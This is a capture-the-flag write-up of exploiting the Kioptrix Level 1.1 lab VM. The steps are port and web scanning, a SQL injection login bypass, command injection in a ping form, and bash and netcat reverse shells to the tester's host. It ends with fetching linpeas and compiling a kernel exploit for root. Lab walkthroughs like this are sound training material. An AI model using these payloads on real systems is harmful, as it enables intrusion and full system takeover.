







# KIOPTRIX LEVEL 1.1 (#2)

Kioptrix series consists of 5 vulnerable machines. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Enumeration

### Nmap

*   -p- –> to scan ports from 1 through 65535
*   -sV –> Version detection
*   -sC –> script scan using the default set of scripts => equivalent to –script=default
*   -A –> Aggressive scan options
*   –min-rate 1000 –> 1000 packets per second
*   –max-retries 5 –> number of times a packet is to be resent on a port to check

~~~bash

nmap -p- -sV -sC -A --min-rate 1000 --max-retries 5 192.168.1.10

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-14 14:47 EDT
Stats: 0:01:53 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 85.71% done; ETC: 14:49 (0:00:17 remaining)
Stats: 0:03:15 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.89% done; ETC: 14:50 (0:00:00 remaining)
Nmap scan report for 192.168.1.10
Host is up (0.0052s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1010/udp   status
|_  100024  1           1013/tcp   status
443/tcp  open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2021-06-14T15:40:58+00:00; -3h09m28s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
1013/tcp open  status     1 (RPC #100024)
3306/tcp open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)

Host script results:
|_clock-skew: -3h09m28s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 222.78 seconds

~~~

### Nikto
To scan web server running on port 80.

```bash

nikto -h 192.168.1.10
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.10
+ Target Hostname:    192.168.1.10
+ Target Port:        80
+ Start Time:         2021-06-16 14:55:32 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.0.52 (CentOS)
+ Retrieved x-powered-by header: PHP/4.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ Uncommon header 'tcn' found, with contents: choice
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 357810, size: 4872, mtime: Sat Mar 29 13:41:04 1980
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8725 requests: 1 error(s) and 17 item(s) reported on remote host
+ End Time:           2021-06-16 14:56:17 (GMT-4) (45 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

### services

Web servers,

port 443 and 80:


port 631:


Mysql,




## Web Server

Login page found in the port 80, basic SQL injection worked to by pass the login.

### SQL Injection

Payload in username and password field:  `' or 1=1 --`



Bypassed home page,



### Command injection

127.1 is 127.0.0.1, will open a new page `/pingit.php` and provide output for that IP.

To concatenate bash commands, `;` , `&&` can be used.

Source code of the index and pingit page,

From this, database used is `webapp`.


```
127.1 && ls && cat index.php && cat pingit.php

PING 127.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.000 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.025 ms

--- 127.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2009ms
rtt min/avg/max/mdev = 0.000/0.019/0.034/0.015 ms, pipe 2
index.php
pingit.php
";
	mysql_select_db("webapp");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."
";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."
";
	}

?>
	
Remote System Administration Login
Username 	
Password 	

		
Welcome to the Basic Administrative Web Console
Ping a Machine on the Network: 	


';
        echo shell_exec( 'ping -c 3 ' . $target );
        echo '

'; } ?> 
```

`nc` is not in the victim server. so, `nc` reverse shell didn't work.
>127.1 && nc -nv 192.168.1.6 4444 -e /bin/sh





Reverse shell cheat sheet : http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Below reverse shell using bash worked,
> 127.1 && bash -i >& /dev/tcp/192.168.1.6/4444 0>&1

```bash
nc -nvlp 4444                                                        1 ⨯
listening on [any] 4444 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.10] 32770
bash: no job control in this shell
bash-3.00$ whoami
apache
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$ cat /etc/*-release    
CentOS release 4.5 (Final)
bash-3.00$ 

```

Got Normal User(apache) shell.

## Privilege Escalation

### Linpeas
[Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) can be used to enumerate,

Server created in host,
>sudo python -m SimpleHTTPServer 80

Only `/tmp` directory has write access, downloaded linpeas file in victim using wget. 
>wget 192.168.1.6/linpeas.sh

By executing linpeas, operative system output with linux version `2.6.9` as red which needs attention. 

```bash
Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8)) #1 Wed May 2 13:52:16 EDT 2007
LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5
Codename:       Final

```

### Searchsploit

```bash
$ searchsploit linux 2.6.9 centos
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
Linux Kernel 2.6 < 2.6.19 (White Box 4 / C | linux_x86/local/9542.c
------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### exploit

Downloaded `9542.c` file from host.

```bash
bash-3.00$ gcc 9542.c -o 9542 
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./9542       
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 
```

Got root shell.

## Reference
https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
